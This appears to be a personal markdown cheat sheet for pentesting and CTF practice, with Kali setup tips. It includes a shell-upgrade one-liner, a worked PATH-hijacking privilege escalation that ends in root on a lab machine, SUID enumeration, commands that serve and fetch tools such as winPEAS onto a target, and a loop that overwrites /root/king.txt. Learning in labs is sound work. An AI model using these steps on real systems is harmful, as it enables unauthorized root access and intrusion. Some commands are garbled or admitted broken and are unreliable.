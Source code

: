 # NOTES
STUDY MATERIAL >.&lt;

- [Uncat](#uncat)
- [SERVICES](#services)
- [Tools](#)
  - [Network Scanning](#)
    - [NMAP](#)
  - [WEB DIRECTORY SCANNING](#) 
    - [GOBUSTER](#)
  - []()
  - []()
  - []()
  -   
- []()
- []()
- []()
- []()


# Uncat
MY PENTEST CHEAT SHEET AND BASIC KALI SETUP/TROUBLESHOOT COMMANDS

Linux Tools, Scripts & Services

# 

# Bash Scripts (For CTF)

$ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’  → sh to bash shell

# Exploit PATH Hijacking

matt@pandora:~$ echo "/bin/bash" > tar
matt@pandora:~$ chmod +x tar
matt@pandora:~$ ls
'GCONV_PATH=.'   [setup.sh](http://setup.sh/)   tar   user.txt   value   wget-log
matt@pandora:~$ export PATH=$(pwd):$PATH
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~# whoami
root

Enumeration for SUID files $ find / -user root -perm -4000 -exec ls -ldb {} ; >/tmp/suidfiles

Enumeration for user executable location $ find / -type d -maxdepth 2 -writable -exec ls -l {} + 2>/dev/null

$ find / -type d -maxdepth 2 -writable -exec ls -l {} 2> + /dev/null (THIS ONE DOSENT WORKS)
/ : Scan the entire device
-type d : Scan for directories only (No files)
-maxdepth : The max depth (subfolders) to scan
-writable : Check if current user an write in folder
-exec : Execute a command on the results returned by find ls
-l {} + : List the output in long form ( {} is placeholder for the location where result of the find command is substituted. The + at the end is used to terminate the -exec command)

$ python3 -m http.server {port} (ip before port is optional i guess) - host file to download on target system, File should be in the same folder where the hosting service is started

$ wget {ip}:port/filename

$ “curl” is more likely to read the content of files in linux whereas wget is to download the files!!!

$ curl –head {IP} - To get the header of the website..
for eg. i got “X-Backend-Server: office.paper” for 10.10.11.143 so i added this ip in /etc/hosts following with the IP like this “10.10.11.143 office.paper” and then went to search [http://office.paper](http://office.paper/) and the i got the website running which was earlier showing default apache page bcos it was not set up.

$ powershell “curl|wget” http://10.0.0.1/winPEASx64.exe -outfile winPEASx64.exe

# FOR CTF :

Finding total flags xD (ctf ezz) $ find / -name flag.txt 2> /dev/null

while true; do echo “yassk” > /root/king.txt; done &



==========================================================================================

KALI LINUX TROUBLE-SHOOTS AND BASICS

1. Unable to download or install packages using "apt-get"
    
    file path = /etc/apt/sources.list
    
    We have to uncomment 2nd source link in sources.list file to be able to use "sudo apt-get install" command.
    After uncommenting use "sudo apt-get update" to update the changes and reflect in our kali system. Then re-run the command not working
    
2. Shells
    
    echo $SHELL -  to print current shell
    
    chsh - to change the current shell.
    
    There are couple of shells in kali from which we can use, currently zsh is by default in my machine.
    
3. Update kali to latest version
    
    kali@kali:~$sudo apt update
    
    kali@kali:~$ sudo apt full-upgrade -y


# SERVICES

# Tools
## NetworkScanning
### NMAP
    


